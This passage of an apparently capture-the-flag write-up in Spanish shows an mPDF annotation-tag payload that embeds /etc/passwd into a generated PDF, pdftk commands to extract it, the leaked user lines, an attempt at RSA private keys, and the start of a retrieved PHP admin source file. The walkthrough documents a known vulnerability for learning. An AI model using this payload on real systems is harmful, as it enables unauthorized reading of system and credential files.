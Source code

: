 ```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

> Parameters
>
> file : Ruta del archivo para adjuntar en el pdf (importante)
>
> content : Texto emergente al pasar el cursor por el documento (importante para poder luego descargar el archivo)
>
> icon : Apariencia del marcador de anotación (no necesario)
>
> tittle : Agregar un titulo a la nota (solo necesario para mejor visualización)
>
> pos-x : Posición de la nota (tener en cuenta que se encuentre en el limite del tamaño de tu archivo para poder visualizarlo, de igual manera estará adjunto al documento)

> En cualquier caso no puedas ver el archivo en la web, ten en cuenta que ya es parte del archivo y puedes extraerlo con la herramienta [pdftk](https://etutorials.org/Linux+systems/pdf+hacks/Chapter+1.+Consuming+PDF/Hack+12+Unpack+PDF+Attachments+Even+Without+Acrobat/) 
{: .prompt-tip}

```console
❯ apt install pdftk

❯ pdftk OKbvFO0p8W9ud7qtnTzHJsfZhr.pdf unpack_files

❯ ls
 OKbvFO0p8W9ud7qtnTzHJsfZhr.pdf   passwd
```

> Más información del tag `<annotation>` [https://mpdf.github.io](https://mpdf.github.io/reference/html-control-tags/annotation.html)
{: .prompt-info}

> Aquí puedes encontrar el repositorio de la vulnerabilidad exacta [https://github.com/mpdf](https://github.com/mpdf/mpdf/issues/356)
{: .prompt-tip}

Ahora que podemos leer archivos del sistema y tenemos el archivo `/etc/passwd`, podemos ver los usuarios existentes:

```console
❯ cat passwd | grep bash
root:x:0:0:root:/root:/bin/bash
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash
```

Intentamos leer llaves privadas **RSA** pero no conseguimos nada. Entonces recordamos el archivo que encontramos antes al generar el error en la inyección **SQL** (_/var/www/scheduling/admin/admin_class.php_), lo extraemos y vemos su contenido:

```php
<?php
session_start();
ini_set('display_errors', 1);
Class Action {
        private $db;

        public function __construct() {
                ob_start();
        include 'db_connect.php'; // File in the same directory
    
    $this->db = $conn;
        }
        function __destruct() {
```